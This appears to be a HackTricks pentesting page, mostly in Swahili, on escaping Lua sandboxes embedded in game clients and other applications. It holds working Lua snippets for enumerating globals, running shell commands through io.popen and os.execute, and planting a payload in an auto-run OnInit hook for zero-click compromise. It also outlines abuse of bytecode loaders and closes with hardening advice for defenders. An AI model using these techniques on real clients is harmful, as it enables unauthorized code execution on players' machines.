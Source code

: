 # Bypass Lua sandboxes (embedded VMs, game clients)

{{#include ../../../banners/hacktricks-training.md}}

Ukurasa huu unakusanya mbinu za vitendo za kuorodhesha na kutoroka kutoka kwa Lua "sandboxes" zilizojengwa ndani ya applications (hasa game clients, plugins, au in-app scripting engines). Injini nyingi zinaonyesha mazingira ya Lua yaliyopunguzwa, lakini hutoa globals zenye nguvu ambazo zinaweza kufikiwa na kuruhusu utekelezaji wa amri bila vizuizi au hata native memory corruption wakati bytecode loaders zinapotolewa.

Mawazo muhimu:
- Tibu VM kama mazingira yasiyojulikana: orodhesha _G na ugundue ni primitives gani hatari zinaweza kufikiwa.
- Iwapo stdout/print zimezuiwa, tumia kwa ubaya chanel yoyote ya UI/IPC ndani ya VM kama output sink ili kuangalia matokeo.
- Kama io/os imefunuliwa, mara nyingi una utekelezaji wa amri moja kwa moja (io.popen, os.execute).
- Kama load/loadstring/loadfile zimetolewa, kuendesha crafted Lua bytecode kunaweza kuvunja usalama wa kumbukumbu katika baadhi ya matoleo (≤5.1 verifiers ni bypassable; 5.2 iliondoa verifier), hivyo kuwezesha advanced exploitation.

## Orodhesha sandboxed environment

- Toa mazingira ya global ili kuorodhesha tables/functions zinazoweza kufikiwa:
```lua
-- Minimal _G dumper for any Lua sandbox with some output primitive `out`
local function dump_globals(out)
out("=== DUMPING _G ===")
for k, v in pairs(_G) do
out(tostring(k) .. " = " .. tostring(v))
end
end
```
- Ikiwa print() haipo, tumia tena in-VM channels. Mfano kutoka kwenye MMO housing script VM ambapo chat output inafanya kazi tu baada ya sound call; ifuatayo inaunda function ya output imara:
```lua
-- Build an output channel using in-game primitives
local function ButlerOut(label)
-- Some engines require enabling an audio channel before speaking
H.PlaySound(0, "r[1]") -- quirk: required before H.Say()
return function(msg)
H.Say(label or 1, msg)
end
end

function OnMenu(menuNum)
if menuNum ~= 3 then return end
local out = ButlerOut(1)
dump_globals(out)
end
```
Boresha mtindo huu kwa lengo lako: kisanduku chochote cha maandishi, toast, logger, au UI callback kinachokubali strings kinaweza kutumika kama stdout kwa reconnaissance.

## Direct command execution if io/os is exposed

Ikiwa sandbox bado inafunua maktaba za kawaida io au os, kuna uwezekano una immediate command execution:
```lua
-- Windows example
io.popen("calc.exe")

-- Cross-platform variants depending on exposure
os.execute("/usr/bin/id")
io.popen("/bin/sh -c 'id'")
```
- Utekelezaji hufanyika ndani ya client process; tabaka nyingi za anti-cheat/antidebug zinazozuia external debuggers hazitazuia in-VM process creation.
- Pia angalia: package.loadlib (arbitrary DLL/.so loading), require with native modules, LuaJIT's ffi (if present), na debug library (can raise privileges inside the VM).

## Zero-click triggers via auto-run callbacks

Ikiwa host application inatuma scripts kwa clients na VM inaonyesha auto-run hooks (e.g., OnInit/OnLoad/OnEnter), weka payload yako hapo kwa drive-by compromise mara script inapo load:
```lua
function OnInit()
io.popen("calc.exe") -- or any command
end
```
Any equivalent callback (OnLoad, OnEnter, etc.) inapanua mbinu hii wakati scripts zinapotumwa na kutekelezwa kwenye client kwa otomatiki.

## Vipengele vya msingi hatari vya kutafutwa wakati wa recon

Wakati wa _G enumeration, angalia hasa kwa:
- io, os: io.popen, os.execute, file I/O, env access.
- load, loadstring, loadfile, dofile: tekeleza source au bytecode; inaunga mkono kupakia bytecode zisizo za kuaminika.
- package, package.loadlib, require: kupakia maktaba za dynamic na uso wa module.
- debug: setfenv/getfenv (≤5.1), getupvalue/setupvalue, getinfo, na hooks.
- LuaJIT-only: ffi.cdef, ffi.load kwa kuita native code moja kwa moja.

Mifano ya matumizi ya chini (ikiwa inafikiwa):
```lua
-- Execute source/bytecode
local f = load("return 1+1")
print(f()) -- 2

-- loadstring is alias of load for strings in 5.1
local bc = string.dump(function() return 0x1337 end)
local g = loadstring(bc) -- in 5.1 may run precompiled bytecode
print(g())

-- Load native library symbol (if allowed)
local mylib = package.loadlib("./libfoo.so", "luaopen_foo")
local foo = mylib()
```
## Upandishaji wa hiari: abusing Lua bytecode loaders

Wakati load/loadstring/loadfile zinapatikana lakini io/os zimezuiliwa, utekelezaji wa crafted Lua bytecode unaweza kusababisha ufichuzi wa memory na primitives za corruption. Mambo muhimu:
- Lua ≤ 5.1 ilikuja na bytecode verifier ambayo ina bypasses zinazoeleweka.
- Lua 5.2 iliondoa verifier kabisa (msimamo rasmi: applications zinapaswa kukataa precompiled chunks), ikipanua attack surface ikiwa bytecode loading haijazuiwa.
- Workflows kwa kawaida: leak pointers kupitia in-VM output, tengeneza bytecode kuunda type confusions (kwa mfano, kuhusiana na FORLOOP au opcodes nyingine), kisha pinda hadi arbitrary read/write au native code execution.

Njia hii ni engine/version-specific na inahitaji RE. Angalia references kwa uchambuzi wa kina, exploitation primitives, na mifano ya gadgetry katika games.

## Detection and hardening notes (for defenders)

- Server side: reject or rewrite user scripts; allowlist safe APIs; strip or bind-empty io, os, load/loadstring/loadfile/dofile, package.loadlib, debug, ffi.
- Client side: run Lua with a minimal _ENV, forbid bytecode loading, reintroduce a strict bytecode verifier or signature checks, and block process creation from the client process.
- Telemetry: alert on gameclient → child process creation shortly after script load; correlate with UI/chat/script events.

## References

- [This House is Haunted: a decade old RCE in the AION client (housing Lua VM)](https://appsec.space/posts/aion-housing-exploit/)
- [Bytecode Breakdown: Unraveling Factorio's Lua Security Flaws](https://memorycorruption.net/posts/rce-lua-factorio/)
- [lua-l (2009): Discussion on dropping the bytecode verifier](https://web.archive.org/web/20230308193701/https://lua-users.org/lists/lua-l/2009-03/msg00039.html)
- [Exploiting Lua 5.1 bytecode (gist with verifier bypasses/notes)](https://gist.github.com/ulidtko/51b8671260db79da64d193e41d7e7d16)

{{#include ../../../banners/hacktricks-training.md}}
